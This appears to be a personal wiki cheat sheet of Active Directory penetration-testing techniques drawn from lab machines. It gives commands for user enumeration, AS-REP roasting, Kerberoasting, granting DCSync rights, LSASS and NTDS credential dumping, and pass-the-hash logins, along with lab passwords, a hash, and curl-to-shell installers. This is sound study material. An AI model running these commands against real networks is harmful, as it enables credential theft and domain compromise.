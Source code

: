 ```yaml
---
layout: wiki
title: Internals - Active Directory Resources
cate1: Internal
cate2: Active Directory
description: Notes about Active Directory
keywords: Internals
---
```


# Initial Enumeration
**[Password Spraying via Sprayhound](https://github.com/Hackndo/sprayhound)**
  - Checks badpwdcount attribute only in the domain policy

**[Rid Brute via SMB](https://medium.com/@e.escalante.jr/active-directory-workshop-brute-forcing-the-domain-server-using-crackmapexec-pt-6-feab1c43d970)**

**Requires:** Guest read access to IPC$ (Remote IPC) SMB File Share 
```
nxc smb 10.10.10.192 -u 'guest' -p '' --rid-brute > sid.txt
cat sid.txt | awk -F': ' '{print $2}' | awk '{print $1}' | sed 's/BLACKFIELD\\//' > users.txt
GetNPUsers.py BLACKFIELD/ -usersfile users.txt -format hashcat
hashcat -m 18200 creds.txt /usr/share/wordlists/rockyou.txt
```

**[LDAPSearch Cheat Sheet](https://notes.benheater.com/books/active-directory/page/ldapsearch)**
```
Domain Contexts: ldapsearch -x -H ldap://BLACKFIELD -s base namingcontexts
Search Users: ldapsearch -x -H ldap://BLACKFIELD -D 'CN=support,CN=users,DC=BLACKFIELD,DC=local' -W -b 'DC=BLACKFIELD,DC=local' '(objectClass=user)'
```

Other resources
  - [Useful LDAP queries](https://podalirius.net/en/articles/useful-ldap-queries-for-windows-active-directory-pentesting/)

**[LDAP Domain Dump via Linux](https://github.com/dirkjanm/ldapdomaindump)**

Old tool however useful if Bloodhound.py isn't working as intended.

**[Integrated DNS Dump](https://github.com/dirkjanm/adidnsdump)**

Any user in Active Directory can enumerate all DNS records in the Domain or Forest DNS zones, similar to a zone transfer.

Additional Resources:
  - [ADIDNS Dump](https://dirkjanm.io/getting-in-the-zone-dumping-active-directory-dns-with-adidnsdump/)

**[BloodHound CE](https://github.com/SpecterOps/BloodHound)**

**Additional Resources** 
  - [BloodHound Community Edition](https://support.bloodhoundenterprise.io/hc/en-us/articles/17468450058267-Install-BloodHound-Community-Edition-with-Docker-Compose)
  - [BloodHound Cypher Cheatsheet](https://hausec.com/2019/09/09/bloodhound-cypher-cheatsheet/)
    
```
curl -L https://ghst.ly/getbhce | docker compose -f - up
```

**[BloodHound.py for Linux](https://github.com/dirkjanm/BloodHound.py)**
```
python3 bloodhound.py -u "support" -p "#00^BlackKnight" -c ALL -d BLACKFIELD.local -ns 10.10.10.192 -dc dc01.BLACKFIELD.local
```

# Poisoning and Relay
**[Responder](https://github.com/lgandx/Responder)**
  - IPv6/IPv4 LLMNR/NBT-NS/mDNS Poisoner and NTLMv1/2 Relay.

```
hashcat -m 5600 --force -a 0 responder.hashes /usr/share/wordlists/rockyou.txt
/opt/tools/Responder/ (location of Responder)
```

# Active Directory Exploitation
**[ASREPRoasting via Impacket](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast)**

**[WriteDACL - BloodHound](https://support.bloodhoundenterprise.io/hc/en-us/articles/17312765477787-WriteDacl)**

**[Abusing Active Directory ACLs/ACEs](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse)**

**[NTLMRelay](https://www.thehacker.recipes/ad/movement/ntlm/relay)**

**[DCSync - secretsdump](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/dcsync)**

**With PowerView**:
```
whoami /all
Add-ADGroupMember -Identity "Exchange Windows Permissions" -members svc-alfresco
net group "Exchange Windows Permissions" /add svc-alfresco
Add-DomainObjectAcl -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity svc-alfresco -Rights DCSync
Add-ObjectACL -PrincipalIdentity test123 -Credential $cred -Rights DCSync
Get-DomainUser -Identity svc-alfresco
Get-ObjectAcl -DistinguishedName "DC=htb,DC=local" -ResolveGUIDs | Where-Object { $_.IdentityReference -match "svc-alfresco" }
```

**[SYSVOL Group Policy Credential Mining](https://adsecurity.org/?p=2288)**

**[Kerberoasting](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast)**

**Requires:** Domain Credentials

**Targets:** Service Accounts with SPNs registered on the domain to retrieve TGS tickets containing the SPN hashes.

```
GetUserSPNs.py -request active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100
hashcat -m 13100 --force -a 0 kerberoasting.hashes /usr/share/wordlists/rockyou.txt --force
```

## Lateral Movement
[ForceChangePassword](https://www.thehacker.recipes/ad/movement/dacl/forcechangepassword)

**Requires:** `GenericAll`, `AllExtendedRights` or `User-Force-Change-Password` on Object

```
net rpc password AUDIT2020 -U BLACKFIELD\\support -S BLACKFIELD.local (prompts new password)
```

## Credential Dumping
**[LSASS Dump - lsass.DMP](https://medium.com/@markmotig/some-ways-to-dump-lsass-exe-c4a75fdc49bf)**

**Requires:** Credential Guard to be disabled.

```
Dumping LSASS via Linux: https://medium.com/@offsecdeer/dumping-lsass-remotely-from-linux-efc47391e56d
```

**[Pypykatz - Mimikatz for Linux](https://github.com/skelsec/pypykatz)**

**Requires:** A DMP file containing credentials extracted to our Linux machine.
```
pypykatz lsa minidump lsass.DMP
```

## Domain Escalation
**[Backup Operator - Privilege Escalation](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges#backup-operators)**
```
whoami /all (SeBackupPrivilege Enabled)

diskshadow /s backup.txt
robocopy /b E:\Windows\ntds . ntds.dit (NTDS file)
reg save hklm\system c:\temp\system.bak (System Hive keys)

## Other Resources
https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960#ac58
```

-----------------------------------------------------------------------

## Active Directory Tools
**[NetExec](https://github.com/Pennyw0rth/NetExec)**
```
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh (install Rust)
source $HOME/.cargo/env
pipx install git+https://github.com/Pennyw0rth/NetExec
```

**[PowerView (Deprecated since 2021)](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)**
```. .\powerview.ps1```

**NSE**
```--script smb-os-discovery,smb-enum-shares,smb-enum-users,smb-vuln*```

**SMB**
Enum4Linux
SMBMap
smbclient
smbclient.py (Impacket)
**[NetExec - Cheatsheet](https://github.com/BlWasp/NetExec-Cheatsheet)**
**[SMB Enumeration Cheatsheet](https://0xdf.gitlab.io/2024/03/21/smb-cheat-sheet.html)**

**WinRM**
**[Evil-WinRM](https://github.com/Hackplayers/evil-winrm)**
```
evil-winrm -i 10.10.10.192 -u "svc_backup" -H "9658d1d1dcd9250115e2205d9f48400d"
```

**[Impacket]()**
```
python3 -m pipx install impacket
  - **PSExec**
    - Shell access via SMB shares (Pass the Hash) 
  - **GetNPUsers**
    - Kerberos Pre-authentication disabled (ASREPRoasting)
```

## Resources
 - [The Hacker Recipes](https://www.thehacker.recipes/)
 - [Active Directory Exploitation Cheat Sheet](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet)
